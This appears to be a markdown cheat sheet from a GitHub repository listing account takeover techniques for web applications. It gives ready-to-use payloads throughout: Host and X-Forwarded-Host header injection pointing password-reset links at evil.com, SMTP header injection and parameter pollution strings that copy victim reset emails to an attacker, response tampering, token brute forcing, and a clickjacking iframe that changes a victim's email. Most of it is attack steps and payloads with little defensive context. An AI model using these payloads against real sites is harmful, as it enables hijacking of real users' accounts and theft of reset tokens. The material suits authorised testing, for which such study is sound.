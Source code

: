 ## Account Takeover Techniques

### Password Reset Functionalities
```
- Register an account as an attacker.
- Change password and intercept success response of password change.
- Register an account as a victim.
- Try to change password and intercept the response.
- Paste the attacker success response.
```
```
- Click forgot password and put your email.
- Intercept the request and add some headers with attacker control domain.
- Check email and see if password token comes with attacker control domain.
```
##### Headers
Try to change Host header.
```
Host: evil.com

Not working? Jsut double it.
Host: target.com
Host: evil.com
```
```
Host: target.tld?><a href=http://evil.com
```
Other Headers
```
X-Forwarded-Host:
X-Original-Url:
X-Forwarded-Server:
X-Host:
X-Rewrite-Url:
X-Originating-IP:
X-Forwarded-For:
X-Remote-IP:
X-Remote-Addr:
X-Client-IP:
```

Host Header Bypass Methods
```
GET /api/reset-password HTTP/1.1
Host: vulernable-website.com.evil.com

GET /api/reset-password HTTP/1.1
Host: vulernable-website.com?evil.com

GET /api/reset-password HTTP/1.1
Host: evil.com/vulernable-website.com

GET /api/reset-password HTTP/1.1
Host: evil.com%00vulernable-website.com
```

```
- Click forgot passowrd and enter attacker email.
- Intercept the response (Action > Do intercept > Response to this request) and looking for password reset token or code.
- If found, then do the same procedure for victim email. 
```

```
- Click forgot passowrd and enter attacker email.
- Go to email and click on password reset link. See carefully the password reset link, if the link contatin the email using parameter change it with victim email
  or use both email using HPP techniques.
- If email found in POST body, change it with victim email or use both attacker and victim email using HPP.
- If no email found, try SMTP Header Injection techniques.
```

```
- Issue a password reset token for atttacker@email.tld.
- Go to settings and change your email to victim@email.tld.
- Now go to attacker@email.tld's inbox and click on password reset link.
- See the link is working or not.

# Impact
Sometime web app doesn't care about email. User can create more than one account using same email with unique username. 
```
#### Session Puzzling/Session Overloading Attack
```
- Try to access victim's dashboard or profile page normaly which is accessible after login.
- Go to Forgot Password and request for password change behalf of victim.
- Now directly go to dashboard or profile page. If victim's dashboard or profile accessible then it is Session Puzzling/Session Overloading Attack.
```

#### With HTTP Parameter Pollution
```
- Go to password reset link, enter new password and intercept the request
- Add extra email parameter on the request
  email=victim@email.tld&email=attacker@email.tld
- If response success then see which account password has been changed
```

#### SMTP Header Injection & Email Parameter Manipulation
```
victim@mail.tld%0d%0acc:attacker@mail.tld

victim@mail.tld%0d%0abcc:attacker@mail.tld

email=victim@email.tld%20email=attacker@email.tld

email=victim@email.tld|email=attacker@email.tld

email="victim@mail.tld",email="attacker@mail.tld"

email=victim@email.tld:attacker@email.tld

{"email":["victim@email.tld","atracker@email.tld"]}
```

#### Response manipulation
```
HTTP/1.1 401 Unauthorized
{“message”:”unsuccessful”,”statusCode:403,”errorDescription”:”Unsuccessful”}
----------------------------------------------------------------------------
HTTP/1.1 200 OK
{“message”:”success”,”statusCode:200,”errorDescription”:”Success”}
```

#### Pre-Account Takeover
**Suppose two features(Login via OAuth and email) are available and no email verification needed after registration.**
```
- Create an account using victim email.
- Suppose the victim create an account via OAuth(Login With Google) using same email.
- Now attacker is able to access the victim account.
```
*May be victim will not be able to create an account with this email(Email Already Exist)*

#### Admin Panel Access
**Suppose no email verification needed after registration.**
```
- Try to find out other stuff's email of the company(Use hunter.io).
- Try to register with those email one by one and see it is possible to access stuff's account or admin panel or not.
```
*Sometime application uses username or firstname to create particular user's profile.*
*For example: https://site.com/user/bob/*
```
- Create an account and notice carefully application's naming convention.
- Change your account's username or firstname to some common name for admin panel i.e. admin, administrator, dashboard etc.
```

### Other Techniques
```
- Use unicode char jutsu to spoof email address
- Change request method (get, put, post etc) and/or Content Type (xml<->json) 
- Match bad response and replace with good one
- Use super long string
```
**While inviting users into your account/organization**
```
- Try inviting company emails and add a new field "password":"example123" or "pass":"example123" in the request.
  You may end up resetting a user password.
- For Company emails check on http://hunter.io.
```

### Playing With Token
```
- Use attacker's valid token on Victim's account
- Completely remove the token
- Change it to 00000000000...
- Use null value
- Try expired token
- Try an array of old tokens
- Change 1 char at the begin/end to see if the token is evaluated
- Bruteforce token
```

### Email Change
#### ClickJacking
```
If email can change via GET parameter then check is there any protection against ClickJacking.
<iframe src="http://example.com/change?email=attacker@mail.com"></iframe>
```

